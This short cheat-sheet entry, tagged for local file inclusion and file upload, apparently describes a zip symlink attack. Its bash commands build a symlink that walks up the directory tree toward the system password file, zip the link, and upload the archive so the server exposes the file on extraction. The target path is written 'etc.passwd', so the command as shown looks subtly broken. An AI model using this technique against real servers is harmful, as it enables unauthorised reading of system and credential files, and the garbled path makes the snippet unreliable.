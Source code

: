 #lfi #file_upload

Create a symlink to a targeted file and zip it.
```bash
ln -s ../../../../../../../../etc.passwd malicious.txt
zip --symlinks malicious.zip malicious.txt
```

Then upload zip and access the decompressed file, it should open the file indicated by the link.
